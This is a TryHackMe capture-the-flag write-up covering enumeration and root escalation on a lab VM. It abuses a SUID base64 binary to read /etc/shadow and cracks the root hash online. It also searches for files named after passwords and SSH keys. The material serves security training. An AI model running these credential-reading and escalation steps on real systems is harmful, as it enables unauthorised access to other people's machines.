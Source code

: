 ```yaml
---

**TryHackMe Write-Up**

* **Target IP:** `10.10.55.87`
* **VPN:** Connected to TryHackMe using OpenVPN.
* **Initial Access:** Connected to the target VM via SSH using the following credentials:

  * **Username:** `leonard`
  * **Password:** `Penny123`

---
```


### 🧭 Enumeration

1. **Checked user privileges:**

   ```bash
   id
   ```

2. **Identified the hostname:**

   ```bash
   hostname
   ```

3. **Checked the kernel version:**

   ```bash
   uname -r
   ```

   * Kernel version: `3.10.0-1160.el7.x86_64`

4. **Checked for sudo privileges:**

   ```bash
   sudo -l
   ```

5. **Searched for interesting files (e.g., passwords, SSH keys):**

   ```bash
   find / -type f \( -name "*pass*" -o -name "*ssh*" \) 2>/dev/null
   ```

   * Nothing useful found.

6. **Searched online for kernel-specific vulnerabilities:**

   * No exploitable vulnerabilities found for this kernel version.

7. **Checked for files with SUID permissions:**

   ```bash
   find / -type f -perm -04000 -ls 2>/dev/null
   ```

   * Found several SUID binaries.
   * Notably, `base64` had the SUID bit set.

---

### 🛠 Exploitation via SUID `base64`

Using GTFOBins[[gtobins.com](https://gtfobins.github.io/#), , I discovered that the `base64` command can be abused to read files as another user when SUID is set.

* Read `/etc/shadow` using:

  ```bash
  base64 /etc/shadow | base64 --decode
  ```

* Extracted the root user's password hash from the file.

* Cracked the hash using [hashes.com]([https://hashes.com/en/decrypt/hash), which revealed the root password.

---

### 🔐 Privilege Escalation

* Switched to the root user:

  ```bash
  su root
  ```

  * Entered the cracked password and successfully gained root access.

---

### 🏁 Flags

* Retrieved both `flag1` and `flag2` from the `missy` and `root` directories, respectively.

---

**Status:** ✅ Root access achieved and both flags captured.

Thanks!

---

Let me know if you want a Markdown version or need help writing more reports like this.
